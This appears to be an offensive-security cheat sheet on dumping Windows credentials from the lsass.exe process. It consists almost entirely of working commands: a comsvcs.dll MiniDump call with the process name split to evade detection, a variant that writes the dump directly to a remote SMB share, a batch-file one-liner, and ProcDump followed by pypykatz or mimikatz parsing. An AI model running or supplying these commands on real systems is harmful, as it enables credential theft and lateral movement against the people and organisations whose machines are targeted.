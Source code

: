 # Credentials Dump




## lsass.exe



### LOLBAS


#### comsvcs.dll

* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz#comsvcs-dll)

```
PS > $proc = 'ls'+'Ass'
PS > Get-Process $proc
PS > rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PROCESS_PID> C:\Windows\System32\spool\drivers\color\pony.dat full
```

Not touching the disk (using an SMB share):

```
PS > net use z: \\10.10.13.37\share
PS > rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump (Get-Process ('ls'+'Ass')).id z:\pony.dat full
```

One-liner:

```
Cmd > %COMSPEC% /Q /c echo powershell.exe -NoP -C "%WINDIR%\System32\rundll32.exe %WINDIR%\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id %WINDIR%\Temp\pony.arj full;Wait-Process -Id (Get-Process rundll32).Id" 2^>^&1 > temp.bat & %COMSPEC% /Q /c temp.bat & del temp.bat
```


#### ProcDump

* [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [https://download.sysinternals.com/files/Procdump.zip](https://download.sysinternals.com/files/Procdump.zip)

Dump and parse:

```
PS > .\procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
$ pypykatz lsa minidump lsass.dmp > lsass-pypykatz.minidump
Or
Cmd > .\mimikatz.exe "sekurlsa::minidump out.txt" "exit"
```
